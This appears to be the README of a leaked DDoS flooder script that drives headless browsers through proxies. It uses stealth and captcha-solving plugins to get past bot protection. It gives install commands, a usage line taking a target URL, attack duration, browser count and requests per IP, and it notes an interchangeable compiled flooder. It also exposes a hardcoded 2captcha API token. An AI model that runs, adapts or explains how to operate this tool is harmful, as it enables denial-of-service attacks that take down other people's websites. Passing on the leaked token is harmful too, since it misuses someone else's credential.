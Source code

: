 # How to install ?

1- curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -

2- sudo apt -y install nodejs

3- npm install puppeteer-extra puppeteer-extra-plugin-recaptcha puppeteer-extra-plugin-stealth

# How to use ?

node golang_engine.js URL proxy.txt 1200 20 GET 64

# Explanation

1200 = attack time

20 = how many open browser

64 = request per ip

Note: 

1- script using 2capcha api as below, you can change it

2- flooder "optls" coded in C# and compiled. it's clean and you can replace it with and flooder support cookie.

            provider: {
                id:'2captcha',
                token:'67dd29dd93bcfe3f5b451451b6d98226'
                
# This script coded by Ch2K1t and hacked/leaked by Mesh3l ...                

![image](https://user-images.githubusercontent.com/65688554/165854327-759e6993-9178-450b-b49a-89cf185ab3ac.png)

![image](https://user-images.githubusercontent.com/65688554/165854549-fd603942-e592-4730-b2c2-33d95925bfcc.png)
